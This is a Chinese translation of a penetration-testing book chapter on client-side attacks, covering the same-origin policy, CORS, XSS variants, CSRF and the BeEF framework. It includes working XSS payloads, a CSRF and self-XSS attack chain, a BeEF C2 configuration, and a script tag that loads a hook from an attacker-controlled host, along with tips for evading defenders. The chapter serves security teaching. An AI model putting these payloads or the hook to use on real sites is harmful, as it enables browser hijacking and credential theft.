


# 第九章。实用客户端攻击

当我们谈论客户端攻击时，有一种倾向是质疑它们在危害环境方面的可行性。毕竟，在浏览器中执行 JavaScript 远不如在应用服务器本身上执行本机代码和弹出 shell 那么吸引人。能够在短暂的浏览会话中执行高度沙箱化的 JavaScript 有什么意义？攻击者可以利用这种类型的漏洞造成多大的破坏？事实证明，可以造成相当大的破坏。

在本章中，我们将探讨客户端攻击，重点关注 XSS。我们还将讨论**跨站请求伪造**（**CSRF**）攻击的影响，并讨论**同源策略**（**SOP**）的含义。接下来，我们将看看如何利用 BeEF 武器化 XSS 漏洞。

在本章结束时，您应该对以下内容感到满意：

+   存储、反射和基于 DOM 的 XSS

+   CSRF 和可能的攻击和限制

+   BeEF，浏览器中客户端利用的事实上的工具

我们将花费相当多的时间在 BeEF 上，因为它使 XSS 攻击变得可行。它允许我们轻松执行社会工程攻击来执行恶意本机代码，实现键盘记录器，持久化我们的访问，并甚至通过受害者的浏览器进行流量隧道传输。

# SOP

考虑这样一个场景，一个目标用户在一个打开的浏览器标签页中登录了他们的 Gmail 账户（[mail.google.com](http://mail.google.com)）。在另一个标签页中，他们导航到一个不同域的不同站点，其中包含想要访问那些 Gmail 数据的攻击者代码。也许他们被社会工程引导访问了这个特定站点，或者可能是通过一个著名新闻站点上的恶意广告（malvertising）活动被重定向到那里。

攻击者的代码可能会尝试连接到[mail.google.com](http://mail.google.com)域，因为受害者已经在其他浏览器标签页中进行了身份验证，所以代码应该能够通过伪造请求来读取和发送邮件。JavaScript 提供了完成所有这些所需的所有工具，那为什么一切都不在火中呢？

正如我们很快将在详细中看到的，答案是因为 SOP。SOP 阻止了这种确切的攻击，除非攻击者能够直接将他们的代码注入到[mail.google.com](http://mail.google.com)，否则他们将无法读取任何敏感信息。

SOP 是在网景时代引入的，因为没有它，滥用的潜力是非常真实的。简单来说，SOP 限制了站点从其他站点访问信息，除非请求源的来源与目标相同。

有一个简单的算法来确定 SOP 是否被突破。浏览器将比较源（来源）站点的模式、域和端口与目标站点的模式、域和端口，如果有任何一项不匹配，读取访问将被拒绝。

在我们之前的示例中，攻击的目标站点将是以下 URI：[`mail.google.com/mail/u/0/#inbox`](https://mail.google.com/mail/u/0/#inbox)，这将转换为以下源三元组：

```
( **[schema]**, **[domain]**, **[port]** ) -> ( **https**, **mail.google.com**, **443** )
```

在[`www.cnn.com/`](https://www.cnn.com/)上运行的攻击者代码将被拒绝读取访问，因为域名不匹配：

```
(**https**, **www.cnn.com**, **443** ) != ( **https**, **mail.google.com**, **443** )
```

即使在[`www.google.com/`](https://www.google.com/)上运行恶意代码也无法访问 Gmail，因为域名不匹配，尽管它们在同一台物理服务器上：

| 源 | 目标 | 结果 |
| --- | --- | --- |
| [`mail.google.com/mail/u/0/#inbox`](https://mail.google.com/mail/u/0/#inbox) | [`mail.google.com/mail/u/0/#inbox`](https://mail.google.com/mail/u/0/#inbox) | 允许，端口`443`被隐含 |
| [`mail.google.com/mail/u/0/#inbox`](http://mail.google.com/mail/u/0/#inbox) | [`mail.google.com/mail/u/0/#inbox`](https://mail.google.com/mail/u/0/#inbox) | 拒绝，模式不匹配 |
| [`mail.google.com:8443/u/0/#inbox`](https://mail.google.com:8443/u/0/#inbox) | [`mail.google.com/mail/u/0/#inbox`](https://mail.google.com/mail/u/0/#inbox) | 拒绝，端口不匹配 |
| [`dev.mail.google.com/u/0/#inbox`](https://dev.mail.google.com/u/0/#inbox) | [`mail.google.com/u/0/#inbox`](https://mail.google.com/u/0/#inbox) | 拒绝，域名不匹配 |

从防御的角度来看这是有道理的。我们之前概述的情景如果没有 SOP 将是一场噩梦。然而，如果我们仔细观察互联网上的 Web 应用程序，我们会注意到几乎所有都包含诸如图像、样式表，甚至 JavaScript 代码等内容。

跨源或跨站点共享资源对应用程序有其好处。静态内容可以被卸载到 CDN 上，这些 CDN 通常托管在其他域上（例如 Facebook 的`fbcdn.net`），从而在为用户提供服务时提供更大的灵活性、速度和最终成本节约。

SOP 确实允许访问某些类型的跨源资源，以确保 Web 正常运行。毕竟，当焦点是用户体验时，使应用程序无法使用的安全策略并不是一个很好的安全策略，无论它实际上有多安全。

SOP 将允许以下类型的跨源对象嵌入到来自任何其他站点的源中：

+   图像

+   样式表

+   脚本（浏览器将乐意执行！）

+   内联框架（`iframe`）

我们可以从我们的 CDN 中包含图像，浏览器将下载图像字节并将其呈现到屏幕上。然而，我们无法使用 JavaScript 以编程方式读取字节。对于 SOP 允许的其他静态内容也是如此。例如，我们可以用 JavaScript 包含样式表，但如果源不匹配，我们无法读取样式表的实际内容。

这对于`iframe`元素也是成立的。我们可以创建一个新的`iframe`对象并指向任意 URL，浏览器会愉快地加载该内容。然而，如果我们违反了 SOP，就无法读取其内容。

在以下示例中，我们在[`bittherapy.net`](https://bittherapy.net) web 应用程序内创建一个`iframe`元素，模拟如果允许执行 XSS 攻击或恶意跨源脚本，可能会发生的情况，这一切都在[bittherapy.net](http://bittherapy.net)上下文中执行：


图 9.1：使用浏览器控制台创建`iframe`元素

首先，我们使用`document.createElement()`函数创建一个新的`iframe`元素，并将其存储在`frame`变量中。接下来，我们使用`frame`上的`src`属性将`iframe`的 URL 设置为[`bittherapy.net`](https://bittherapy.net)。最后，我们使用`document.body.append()`函数将新创建的`iframe`对象添加到文档中。

我们可以看到，`frame.src`的源与父域完全匹配，当我们尝试使用`frame.contentDocument`读取`iframe`元素的头部内容时，我们成功了。SOP 并未被违反。

相反，在[`bittherapy.net`](https://bittherapy.net)应用程序中创建指向[`bing.com/`](https://bing.com/)的`iframe`将会成功，且对象会被创建，但我们无法访问其内容，正如我们在下面的图中所看到的：


图 9.2：创建跨源框架并尝试访问其内容失败

Bing 搜索应用加载正常，正如我们在右侧渲染的页面中看到的那样，但从编程角度来看，我们无法读取其内容，因为这违反了 SOP。

JavaScript 也可以跨源访问，这通常是件好事。将 JavaScript 库卸载到 CDN 可以减少加载时间和带宽使用。**CDNJS**是一个典型的例子，展示了站点如何通过引入来自第三方的 JavaScript 获益。

### 注意

CDNJS 是一个开源的 Web CDN，提供几乎所有常见的 JavaScript 库。有关这个伟大服务的更多信息，可以访问[`cdnjs.com/`](https://cdnjs.com/)。

我们尝试通过 JavaScript 加载的任何其他跨源数据都会被拒绝。这包括字体、JSON、XML 或 HTML。

在谈到 SOP 时，Cookies 需要特别提到。Cookies 通常与域名或父域名绑定，并且可以限制为安全的 HTTP 连接。浏览器还可以被指示禁止 JavaScript 访问某些 Cookies，以防止像 XSS 这样的攻击从中提取会话信息。

当 cookie 最初设置时，应用程序服务器通过 `Set-Cookie` HTTP 响应头来调整 cookie 策略。 正如我之前所说，除非另有说明，否则 cookie 通常绑定到应用程序域名。 也可以使用通配符域，这将指示浏览器将 cookie 传递给所有子域的请求。

应用程序将利用 cookie 来管理身份验证和用户会话。 一旦用户成功登录，客户端将收到一个唯一值，并且浏览器将在随后的所有请求中将此值传回应用程序，前提是域名和路径与最初设置 cookie 时指定的相匹配。

这种行为的副作用是用户只需登录到应用程序一次，浏览器就会通过在后台的每个请求中传递 cookie 来保持经过身份验证的会话。 这极大地改善了用户体验，但也可能被攻击者滥用。

# 跨域资源共享

在微服务时代，Web 应用程序组件解耦并作为完全不同域上的独立实例运行时，SOP 提出了一些挑战。

尝试读取以 JSON 格式呈现的某些 API 数据通常会受到 SOP 的拒绝，除非源三元组匹配。 如果我们受限于相同的域、端口和方案，这将变得不便，应用程序将难以开发和扩展。

为了放宽 SOP，引入了 **跨域资源共享** (**CORS**)，再次使开发人员感到高兴。 CORS 允许特定站点指定允许访问通常由 SOP 拒绝的内容的来源。

应用服务器的 HTTP 响应可能包含一个 `Access-Control-Allow-Origin` 头部，客户端可以用它来确定是否完成连接并检索数据。

### 注意

CORS 在 Mozilla 开发者网络有详细文档：[`developer.mozilla.org/en-US/docs/Web/HTTP/CORS`](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)

我们可以使用 `curl` 查看 Spotify 的公共 API CORS 策略：

```
root@spider-c2-1:~# curl -I **https://api.spotify.com/v1/albums**
HTTP/2 401 
www-authenticate: Bearer realm="spotify"
content-type: application/json
content-length: 74
**access-control-allow-origin: ***
access-control-allow-headers: Accept, Authorization, Origin, Content-Type, Retry-After
access-control-allow-methods: GET, POST, OPTIONS, PUT, DELETE, PATCH
access-control-allow-credentials: true
access-control-max-age: 604800
via: 1.1 google
alt-svc: clear

root@spider-c2-1:~#
```

这个特定的 API 是公共的，因此将告知客户端允许所有来源读取响应内容。 这是通过将 `Access-Control-Allow-Origin` 的值设置为通配符 `*` 来实现的。 私有 API 通常会使用更具体的值，例如预期的 URL。

Spotify 服务器会响应其他 `Access-Control` 头，指定接受哪些方法和头，并确定每个请求是否可以传递凭据。 CORS 策略可能会变得非常复杂，但我们大部分关注的是特定目标站点允许的来源。

# XSS

在实地工作中，我经常遇到的另一种普遍攻击类型是 XSS。 XSS 有几种变体，但它们都提供给攻击者同样的东西：在客户端浏览器中执行任意的 JavaScript 代码。

虽然这听起来不像在实际的应用服务器上执行代码那么“厉害”，但 XSS 攻击在定向攻击中可能会造成毁灭性的后果。

## 反射型 XSS

更常见的 XSS 漏洞类型是反射型或非持久性类型。**反射型 XSS** 攻击发生在应用程序接受来自用户的输入（无论是通过 URL 参数、正文或 HTTP 头），并且没有先清理它，就将其返回给用户。这种类型的攻击被称为非持久性攻击，因为一旦用户离开易受攻击的页面，或者关闭浏览器，攻击就结束了。反射型 XSS 攻击通常需要一定的社会工程学技巧，因为有效负载的持续时间很短。

### 注意

为了展示 XSS 攻击，我们将再次使用 Mike Pirnat 的 badguys 项目。Web 应用程序代码可以从 [`github.com/mpirnat/lets-be-bad-guys`](https://github.com/mpirnat/lets-be-bad-guys) 下载。

为了展示这种漏洞，我在 `badguys.local` 上加载了应用程序。`/cross-site-scripting/form-field` URL 在 `qs` 参数中易受 XSS 攻击：

```
http://badguys.local/cross-site-scripting/form-field?qs=test
```

应用程序会获取用户输入的值并在页面的某个地方预填充文本字段。这是登录表单的常见行为，用户可能输入错误的密码，页面会重新加载并显示错误消息。为了改善用户体验，应用程序会自动填充用户名字段，显示之前输入的值。如果用户名值没有经过清理，坏事就可能发生。

为了确认漏洞，我们可以输入前面章节中介绍的 Elsobky 多语言攻击有效负载，并观察应用程序的行为：

```
jaVasCript:/*-/*'/*\'/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

一旦我们投下“炸弹”，虽然应用程序的服务器不受影响，但浏览器渲染的页面却是另一回事。我们可以通过检查应用程序源代码中受影响的输入字段来查看此次攻击的后果：



图 9.3：多语言攻击揭示了 XSS 漏洞

在多语言攻击插入了带有 `onload` 属性设置为执行 `alert()` 的 `<svg>` 标签后，警报框弹出。这是可能的，因为应用程序在未清理危险字符的情况下反射了有效负载。浏览器将第一个双引号解释为输入字段的一部分，从而导致了这个漏洞。

## 持久性 XSS

**持久性 XSS**，也叫做 **存储型 XSS**，与反射型攻击相似，都是因为输入没有经过清理，最终被反射回访问的用户。不过，持久性 XSS 的不同之处在于，它通常被存储在应用程序的数据库中，并呈现给访问受影响页面的任何用户。存储型 XSS 通常不需要我们通过精心制作的 URL 来诱使用户访问易受攻击的页面，如果目标用户不频繁使用该应用程序，这种攻击可能会更快。

存储型 XSS 的一个简单示例是博客文章的评论部分。如果用户输入（评论）在存储之前没有经过消毒，那么任何阅读评论的用户将执行在应用程序中存储的任何负载。

或许最著名的存储型 XSS 攻击例子是**Samy worm**（又称**MySpace Worm**或**JS.Spacehero**）。

由于缺乏适当的输入消毒，Samy 能够释放一段 JavaScript 代码，迫使已经登录到自己 MySpace 帐户的受害者执行几个操作：

+   更新他们的个人资料以包含短语"但最重要的是，Samy 是我的英雄"

+   向 Samy Kamkar 的个人资料发送好友请求

乍一看，这似乎相当无害，少数访问 Samy 个人资料的用户会感到轻微不适，最终会离开。然而，使 Samy Kamkar 出名的是，受害者的个人资料也被更新以包含受害者在浏览被感染个人资料时执行的同一 JavaScript 负载。这将 XSS 攻击转变为 XSS 蠕虫。

在短短 20 小时内，Samy 的个人资料收到了超过一百万的好友请求，显示了这种特定存储型 XSS 攻击的真实影响。

### 注意

关于该精心设计的攻击是如何执行的、包括最终的负载等完整解释，可以在 Samy Kamkar 的个人网站找到：[`samy.pl/myspace/tech.html`](https://samy.pl/myspace/tech.html)。

虽然 Samy 的蠕虫对用户没有造成真正的伤害，但类似的持久 XSS 漏洞可以用来大规模攻击用户、收集会话 cookie，并针对社交工程目标。低权限用户可能会利用存储的 XSS 代码攻击管理用户并通过后续查看受感染页面时处理的 XSS 代码来提升权限。

发现存储型 XSS 漏洞可能会更具挑战性，因为我们并不总是知道负载何时何地会被反射。在此，我们在前几章讨论过的 OOB 漏洞发现技巧可以帮助。

## 基于 DOM 的 XSS

当应用程序的客户端代码从 DOM 中读取数据并以不安全的方式使用时，就会发生这种特定类型的 XSS 攻击。

DOM 本质上是浏览器内存中包含当前页面所有对象的数据结构。这包括 HTML 标签及其属性、文档标题、头部、主体，甚至 URL。JavaScript 可以与 DOM 互动并修改、添加或删除几乎任何部分，立即影响页面本身。

最好的方法来说明 DOM XSS 的影响是通过一个简单易受攻击的应用程序。

在以下截图中，我们有一些 JavaScript 代码，将欢迎*用户*来到页面：


图 9.4：一个易受 DOM XSS 攻击的示例页面

该应用程序将扫描文档 URL 以查找`name`参数的位置，使用`document.URL.indexOf()`函数。然后，它将使用`document.URL.substring()`函数从`name=`后面开始抓取文本，并将值存储在`name`变量中。

在第 11 行，应用程序将遍历 DOM 以查找`span`元素`welcome`。第 12 行是魔术发生的地方，也称为漏洞。应用程序将使用`welcome`对象的`innerHTML`属性，将`span`元素的内容填充为之前获取的`name` URL 参数的内容。

我们可以在以下图中看到应用程序的预期功能：


图 9.5：DOM 已更新以包含来自 URL 的名称

DOM 中的`span`元素已经使用通过 URL 传递的值进行了更新，一切看起来都很好。应用程序提供了动态页面内容，无需服务器端编程。

XSS 漏洞存在的原因是我们能够通过 URL 传入任意值，这将反映在 DOM 中。应用程序解析 URL 并填充`welcome`元素而不对输入进行消毒，允许我们插入除名称以外的内容，并潜在地执行更多的 JavaScript 代码。

这种攻击类似于您典型的反射型 XSS，但有一个重要的区别：JavaScript 代码不是由服务器代码反射的，而是由客户端代码填充的。Web 服务器仍然会在请求中看到有效负载，任何 Web 应用程序防火墙仍然可能通过断开连接来阻止我们的攻击，但任何应用程序输入消毒在这里都不会起作用。

这段代码的另一个问题是 URL 的`GET`参数没有被安全解析。它使用字符串函数遍历整个 URL 并获取任意数据。

如果我们构造一个恶意的 URL，实际上不需要使用问号（`?`）来分隔参数。我们可以使用井号（`#`）代替。这被称为位置哈希，是 DOM 的一部分，可以通过 JavaScript 访问。浏览器不会将哈希数据与 HTTP 请求一起发送。这使我们有优势，不需要将我们的有效负载提交给服务器，完全绕过 Web 应用程序防火墙或服务器端 XSS 过滤器，同时仍然能够执行 JavaScript 代码。

我们用于利用这种 DOM XSS 的有效负载 URL 如下所示：

```
http://c2.spider.ml/welcome.html#name=<svg/onload=alert(1)>
```

应用程序客户端代码运行良好，并将我们的 XSS 有效负载直接插入 DOM 中：


图 9.6：成功执行基于 DOM 的 XSS

如果我们检查应用程序服务器日志，我们会发现我们的有效负载从未通过网络发送：

```
root@spider-c2-1:~/web# php -S 0.0.0.0:80
PHP 7.0.30-0+deb9u1 Development Server started
Listening on http://0.0.0.0:80
Document root is /var/www/html
Press Ctrl-C to quit.
[] 196.247.56.62:59885 [200]: /welcome.html?name=Dade%20Murphy
**[] 196.247.56.62:63010 [200]: /welcome.html**

```

尽管这次攻击导致了相同的 JavaScript 负载的执行，但是网络和服务器端的控制无法防御这些攻击，这使得 DOM XSS 独特。能够利用位置哈希来发送我们的负载使我们比较有优势，因为防御者不仅无法通过补偿性的服务器端控制来阻止攻击，甚至无法看到负载。

# CSRF

我之前简要提到过浏览器会自动传递所有相关的 cookie 给应用程序。例如，如果用户已经在`http://email.site`应用程序进行了身份验证，将会创建一个会话 cookie，可以用来进行经过身份验证的请求。CSRF 攻击利用了这一用户体验功能来滥用过于信任的应用程序。

应用程序通常允许用户通过`GET`或`POST`请求传递自定义值来更新其个人资料。当然，应用程序会检查请求是否经过身份验证，甚至可能会对输入进行清理以防止 SQLi 或 XSS 攻击。

想象一种情景，我们已经成功诱使受害者访问了一个恶意网站，或者我们在一个已知良好的网站中嵌入了一些 JavaScript 代码。这段代码旨在执行 CSRF 攻击并针对`http://email.site`应用程序。

作为攻击者，我们进行了一些调查，发现电子邮件应用程序通过个人资料页面提供了更新密码恢复电子邮件的方法：`http://email.site/profile/`。

当我们在自己的测试账户上提交更改时，我们注意到以下 URL 被调用：

```
http://email.site/profile/update?recovery_email=test@email.local
```

如果我们能够修改另一个用户的密码恢复电子邮件，我们就可以重置他们的凭据，甚至可能以该用户身份登录。这就是 CSRF 攻击发挥作用的地方。虽然应用程序会验证电子邮件地址值并且请求必须经过身份验证，但没有其他安全检查。

CSRF 攻击在恶意网站中嵌入一个不可见的`iframe`、`img`或类似元素，通过攻击者提供的值向目标应用程序发起跨源请求。当受害者的浏览器尝试加载`iframe`或`img`元素时，它也会传递会话 cookie。从应用程序的角度来看，这是一个有效的请求，允许执行。攻击者可能无法读取响应，因为它是跨源的（记得 SOP 吗？），但损害已经造成。

在我们的恶意网站中，我们嵌入了一个指向包含我们电子邮件地址作为新值的个人资料更新 URL 的`img`标签。

典型的 CSRF 攻击流程如下：


图 9.7：CSRF 攻击流程

当用户访问我们的恶意网站时，图片将尝试通过发出经过身份验证的 `GET` 请求来加载目标应用程序，更新受害者的电子邮件应用程序中的恢复电子邮件。现在我们有能力请求受害者账户的密码重置，并直接登录到电子邮件网站。

为了防止 CSRF 攻击，开发人员应该实现**CSRF 令牌**。这些是为每个受保护页面的请求生成的唯一、一次性数字（**nonce**）。当发出更新应用程序任何部分的请求时，客户端必须在请求之前发送这个唯一的值，才能允许数据发生更改。从理论上讲，攻击者将 `img` 标签嵌入自己恶意网站中时，无法猜测这个特定的令牌，因此 CSRF 攻击会失败。

CSRF 令牌是防御 CSRF 攻击的有效手段，如果正确实施。首先，令牌的值应该是唯一的、非确定性的并且难以猜测。一个小的随机整数并不是一个好的令牌，因为它很容易被暴力破解。使用用户名或任何其他静态可猜测的值生成的 MD5 哈希值也不足够好。

CSRF 令牌应该与用户会话绑定，如果会话被销毁，令牌也应该随之消失。如果令牌是全局的，攻击者可以在自己的账户上生成它们，并用来攻击其他用户。

CSRF 令牌也应该是时间限制的。在合理的时间内，令牌应该过期，并且不应再出现。如果令牌通过 `GET` 请求传递，它们可能会被代理或浏览器缓存，攻击者可以简单地收集旧的令牌值并重复使用它们。

当我们在目标应用程序中遇到 CSRF 令牌时，我们应该检查实现中是否存在问题。你会惊讶于很多情况下，CSRF 令牌被发出但在返回服务器时被忽视。

CSRF 是一种有趣的漏洞，通常可以与其他问题（如 XSS）联动，执行有效的攻击，针对特定目标。

假设我们在电子邮件应用程序的个人资料页面中发现了一个存储型 XSS 漏洞。我们可以更新我们的名称，反映某些 XSS 有效载荷。由于我们无法影响其他用户的个人资料名称，因此这个 XSS 有效载荷只会在我们的账户中触发。这被称为**自我 XSS**。如果同一应用程序在登录和注销页面上也容易受到 CSRF 攻击，我们可以强制用户注销，并强制他们以其他身份登录。

首先，我们会将 XSS 有效载荷提交到我们自己的个人资料名称中，并保存以便以后使用。然后，我们可以构建一个恶意网站，按以下顺序执行以下操作：

1.  使用 CSRF 强制受害者注销应用程序

1.  使用 CSRF 利用我们的凭据将受害者重新登录

1.  使用 CSRF 导航到包含自我 XSS 有效载荷的应用程序个人资料页面

1.  在受害者的浏览器上执行 XSS 有效载荷

恶意代码看起来大致如下：


图 9.8：恶意自 XSS 和 CSRF 攻击代码

`http://email.site/profile/`包含我们之前存储的自 XSS 代码，一旦`iframe`加载，代码将在毫无戒备的目标上执行。

当我们在受害者的浏览器中运行 JavaScript 代码，并且该代码是在我们的账户会话下执行时，我们能做什么？窃取会话 Cookies 没有意义，但我们有其他的选项，正如我们接下来所见。

# BeEF

XSS 漏洞在大多数情况下很难成功利用。当我谈论实际的客户端攻击时，我不是指为报告拍摄`alert(1)`弹出窗口的截图！

在渗透测试过程中，XSS 漏洞可能是攻击用户并获得网络立足点的有效途径。进行 XSS 攻击可能会很困难，因为在大多数情况下，你只有一次机会。我们需要在用户关闭浏览器会话之前执行代码并完成所有操作。提取会话令牌或其他敏感数据很容易，但如果我们想将攻击提升到下一个层级该怎么办？理想情况下，我们希望完全控制浏览器，让它为我们所用，或许还能自动化一些更高级的攻击。

BeEF 是 Wade Alcorn 创建的一个很棒的工具，旨在简化 XSS 漏洞的利用。

BeEF 有一个提供指挥与控制的服务器组件。客户端或僵尸通过托管在 C2 服务器上的 JavaScript 代码片段被钩住。僵尸会定期与 C2 服务器联系，并接收指令，这些指令可能包括：

+   执行任意 JavaScript 代码

+   社会工程学投递恶意软件

+   持久性

+   Metasploit 集成

+   信息收集

+   …以及更多

为了利用 BeEF 攻击客户端，我们必须通过 XSS 攻击或通过给应用程序客户端代码植入后门来钩住它。JavaScript 有效载荷将执行并从我们的 BeEF C2 加载钩子，从而让我们能够执行作为命令打包在 BeEF 中的更多代码。

### 注意

安装 BeEF 非常简单，并且它可以在 GitHub 上获取：[`github.com/beefproject/beef`](https://github.com/beefproject/beef)。BeEF 在 Kali Linux 上也默认安装了。尽管在某些情况下，将其部署在云中的 C2 服务器上运行会更好。

我们可以使用`git clone`命令从 GitHub 仓库克隆最新版本：

```
root@spider-c2:~# git clone https://github.com/beefproject/beef
```

源代码附带一个`install`脚本，该脚本将为我们设置环境。在`beef`文件夹中，执行`install`脚本：

```
root@spider-c2:~/beef# **./install**
[WARNING]  This script will install BeEF and its required dependencies (including operating system packages).
Are you sure you wish to continue (Y/n)? **y**
[INFO]  Detecting OS...
[INFO]  Operating System: Linux
[INFO]  Launching Linux install...
[INFO]  Detecting Linux OS distribution...
[INFO]  OS Distribution: Debian
[INFO]  Installing Debian prerequisite packages…
[...]
```

BeEF 可以通过 YAML 配置文件`config.yaml`进行微调。虽然有很多选项可以调整，但对我们来说，最重要的选项如下：

```
beef:
[...]
  credentials:
    **user:   "admin"**
    **passwd: "peanut butter jelly time"**

[...]
  restrictions:
    # subnet of IP addresses that can hook to the framework
    **permitted_hooking_subnet: "172.217.2.0/24"**
    # subnet of IP addresses that can connect to the admin UI
    **permitted_ui_subnet: "196.247.56.62/32"**

  # HTTP server
  http:
    debug: false #Thin::Logging.debug, very verbose. Prints also full exception stack trace.
    **host: "0.0.0.0"**
    **port: "443"**
    **public: "c2.spider.ml"**

[...]

  https:
    **enable: true**
    **key: "/etc/letsencrypt/live/spider.ml/privkey.pem"**
    **cert: "/etc/letsencrypt/live/spider.ml/cert.pem"**

```

配置文件的根节点是`beef`，缩进行限定子节点。例如，路径`beef.credentials.user`在解析配置文件后会返回`admin`值。

更改 `beef.credentials.*` 选项应该是显而易见的。还建议更新 `beef.restrictions.*` 选项，以确保我们只针对合适的客户端并将未授权用户排除在 C2 界面之外。

`permitted_ui_subnet` 选项将限制 BeEF 允许访问 `/ui/`（C2 管理界面）的网络范围。这个设置应该非常严格，因此通常将其设置为当前的外部地址，后跟 `/32`。

我们还可以限制实际允许与 BeEF 钩子互动的地址，防止任何不需要的客户端被利用。如果我们在内部运行 BeEF，可以将钩子子网限制为，例如，仅限市场部门。如果蓝队分析人员尝试运行钩子负载，他们将无法获取任何有用的信息。

对于云端的生产部署，我们需要将 `beef.http.host` 设置为目标的 IP 地址范围，并且我们还希望监听端口 `443`。推荐使用 `beef.https.enable = true` 来运行 BeEF，因为这会增加钩子成功的概率。

如果我们尝试将 BeEF 负载 `<script async src=http://c2.spider.ml/hook.js>` 注入一个通过 HTTPS 加载的页面，现代浏览器将根本不会加载该脚本。允许在 HTTP 网站加载 HTTPS 资源，因此，如果可能，C2 应始终启用 TLS 运行。

`beef.https.key` 和 `beef.https.cert` 配置选项应指向适当的证书，最好是由受信任的根证书颁发机构签署的证书，如 **Let's Encrypt**。我们在 第六章《带外利用》中介绍了如何使用 Let's Encrypt 请求免费的证书来用于我们的 C2 基础设施。

### 注意

Let's Encrypt 提供免费的域名验证证书，支持主机名和通配符证书。更多信息请访问 [`letsencrypt.org/`](https://letsencrypt.org/)。

`beef.http.public` 的值应与 HTTPS 证书的域名匹配，否则可能会出现客户端验证错误，钩子将无法成功。

配置完成后，我们可以启动服务器组件：


图 9.9：BeEF 在云端运行

在 `c2.spider.ml` 上运行 BeEF C2 服务器后，我们可以开始攻击客户端。第一步是让 BeEF 钩子代码在目标浏览器中执行。有几种方法可以实现这一点，最常见的是持久性、反射型或基于 DOM 的 XSS 攻击。

如果我们可以访问应用程序的 shell，还可以通过 BeEF 钩子对应用程序代码进行后门操作。我们可以持久化我们的钩子代码并记录用户活动，甚至利用社会工程学在高价值目标的计算机上执行恶意软件。

BeEF C2 面板可以通过 BeEF 启动器输出中显示的 URL 进行访问：

```
https://[beef.http.public]:[beef.http.port]/ui/panel
```

用户体验有点不太常规，但很快就能适应：


图 9.10：BeEF C2 服务器控制面板

在左侧，UI 显示了被钩取的浏览器或受害者的历史记录，按来源域分组，在线和离线的都有。在线受害者可以立即被利用，因为钩取代码会主动回调到 C2。离线浏览器最近没有与 C2 通信，但一旦受害者重新上线，仍然可以被利用。这通常发生在通过持久化 XSS 攻击、后门化的 Web 应用程序或浏览器扩展钩取的受害者身上。

在钩取的浏览器历史记录的右侧，你会看到登录页面（或**入门指南**）、C2 服务器日志（**日志**），以及选定受害者的浏览器控制标签（**当前浏览器**）。值得注意的是浏览器控制，包括详细信息、日志和模块（或命令）的子标签。

在**命令**标签页中，我们可以选择要运行的模块，在最右侧的列中输入任何必需的参数，然后点击**执行**按钮，我们还可以在中间列中查看模块的执行历史。

有很多可用的模块，有些效果比其他模块更好。你选择的模块（命令）的有效性实际上取决于浏览器版本、受害者的情况以及他们的技术熟练程度。在接下来的章节中，我们将着重分析一些成功率较高的攻击模块，以尝试攻破目标或窃取凭证。

## 钩取

在云端运行 BeEF C2 服务器后，我们暴露了两个重要的 URL：

+   管理界面 – `https://c2.spider.ml/ui/panel`

+   钩取脚本 – `https://c2.spider.ml/hook.js`

这两个 URL 都受到配置文件中 `beef.restrictions.*` 选项的限制。请确保在钩取和管理 UI 限制时使用适当的网络范围。

`hook.js` 文件本质上是我们在受害者的浏览器中投放的恶意软件，以便完全控制他们的会话。它是一个相当大的代码块，最好作为外部脚本（如我们 C2 上托管的脚本）来传送，但这不是强制要求。我们也可以将整个钩取代码复制并粘贴到浏览器控制台中。如果愿意，它虽然很大，但便于携带。

如果我们试图躲避蓝队，最好将这个文件移动到比 `c2.spider.ml/hook.js` 更不显眼的位置，但为了本章的说明，我们将使用这个 URL 钩取受害者。

